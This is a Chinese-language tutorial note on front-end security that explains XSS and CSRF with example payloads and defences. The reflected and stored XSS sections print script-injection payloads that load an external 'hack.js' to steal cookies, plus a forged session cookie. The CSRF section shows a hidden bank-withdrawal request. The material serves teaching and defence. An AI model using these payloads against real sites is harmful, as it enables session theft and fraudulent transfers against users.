 # 前端安全

## XSS

跨站脚本攻击有可能造成以下影响:

利用虚假输入表单骗取用户个人信息。

利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。

显示伪造的文章或图片

### 反射型 - url 参数直接注入

```
// 普通 http://localhost:3000/?from=china

// alert尝试 http://localhost:3000/?from=<script>alert(3)</script>

// 获取Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>

// 短域名伪造 https://dwz.cn/

// 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

### 存储型 - 存储到 DB 后读取时注入

```
// 评论 <script>alert(1)</script>
// 跨站脚本注入
我来了<script src="http://localhost:4000/hack.js"></script>
```

### 防范 XSS[#](https://febook.hzfe.org/awesome-interview/book1/network-security#14-防范-xss)

- 对于外部传入的内容进行充分转义。
- 开启 CSP（Content Security Policy，内容安全策略），规定客户端哪些外部资源可以加载和执行，降低 XSS 风险。
- 设置 Cookie httpOnly 属性，禁止 JavaScript 读取 Cookie 防止被窃取

## CSRF

### 例子

1. 受害者 Bob 在银行有一笔存款，通过对银行的网站发送请求 `http://bank.example/withdraw?account=bob&amount=1000000&for=bob2` 可以使 Bob 把 1000000 的存款转到 bob2 的账号下。

2. 通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，并且该 session 的用户 Bob 已经成功登陆。

3. 黑客 Mallory 自己在该银行也有账户，他知道上文中的 URL 可以把钱进行转帐操作。Mallory 可以自己发送一个请求给银行：`http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory`。
4. 但是这个请求来自 Mallory 而非 Bob，他不能通过安全认证，因此该请求不会起作用。
5. 这时，Mallory 想到使用 CSRF 的攻击方式，他先自己做一个网站，在网站中放入如下代码： `src=”http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory ”`，并且通过广告等诱使 Bob 来访问他的网站。
6. 当 Bob 访问该网站时，上述 url 就会从 Bob 的浏览器发向银行，而这个请求会附带 Bob 浏览器中的 cookie 一起发向银行服务器。
7. 大多数情况下，该请求会失败，因为他要求 Bob 的认证信息。
8. 但是，如果 Bob 当时恰巧刚访问他的银行后不久，他的浏览器与银行网站之间的 session 尚未过期，浏览器的 cookie 之中含有 Bob 的认证信息。
9. 这时，悲剧发生了，这个 url 请求就会得到响应，钱将从 Bob 的账号转移到 Mallory 的账号，而 Bob 当时毫不知情。
10. 等以后 Bob 发现账户钱少了，即使他去银行查询日志，他也只能发现确实有一个来自于他本人的合法请求转移了资金，没有任何被攻击的痕迹。而 Mallory 则可以拿到钱后逍遥法外

[Cross-site request forgery](https://en.wikipedia.org/wiki/Cross-site_request_forgery)

[CSRF 攻击的应对之道](https://www.ibm.com/developerworks/cn/web/1102_niugang_csrf/)

[阻止 ASP.NET MVC 应用程序中的跨站点请求伪造 (CSRF) 攻击](https://docs.microsoft.com/zh-cn/aspnet/web-api/overview/security/preventing-cross-site-request-forgery-csrf-attacks)

### 解决方法

#### 验证 HTTP Referer

Referer 易被篡改

#### 在请求地址中添加 token 并验证

- 原理：服务端生成 CSRF Token （通常存储在 Session 中），用户提交请求时携带上 Token，服务端验证 Token 是否有效。
- 优点：能比较有效的防御 CSRF （前提是没有 XSS 漏洞泄露 Token）。
- 缺点：大型网站中 Session 存储会增加服务器压力，且若使用分布式集群还需要一个公共存储空间存储 Token，否则可能用户请求到不同服务器上导致用户凭证失效；有一定的工作量

#### 在 HTTP 头中自定义属性并验证

#### 验证码
